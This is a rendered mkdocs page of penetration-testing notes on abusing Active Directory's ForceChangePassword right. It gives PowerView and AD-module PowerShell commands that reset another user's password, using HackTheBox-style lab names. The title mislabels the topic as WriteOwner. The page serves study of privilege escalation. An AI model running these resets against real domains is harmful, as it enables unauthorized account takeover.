

repository: amandaguglieri/hackinglife · page: windows-forceChangepassword-permission/index.html · generator: mkdocs

---
title: Windows - Abusing WriteOwner permission
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - privilege escalation
  - windows
  - writeowner
---

# windows ForceChangePassword Permission


When a user has **`ForceChangePassword`** (a.k.a. _Reset Password_) permission over another user account in Active Directory they can reset the target user's password without knowing the current password.

![[forcechangepassword.png]]

The user can change their password. Several ways:

### 1. PowerView (PowerSploit)

Set-DomainUserPassword comes from PowerView (offensive tooling), not Microsoft.

```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('GARFIELD.HTB\l.wilson_adm', $SecPassword)
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity andy -AccountPassword $UserPassword -Credential $Cred
```

Or:

```
$NewPassword = ConvertTo-SecureString 'Lala123' -AsPlainText -Force
Set-DomainUserPassword -Identity 'ca_svc' -AccountPassword $NewPassword
```

### 2. Active Directory Module (Recommended)

```
$newpass = ConvertTo-SecureString 'WhoKnows123!' -AsPlainText -Force 
Set-ADAccountPassword -Identity l.wilson_adm -NewPassword $newpass -Reset
```

Alternative:

```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('GARFIELD.HTB\l.wilson_adm', $SecPassword)

$newpass = ConvertTo-SecureString 'WhoKnows123!' -AsPlainText -Force 
Set-ADAccountPassword -Identity andy -NewPassword $newpass -Reset -Credential $Cred
```
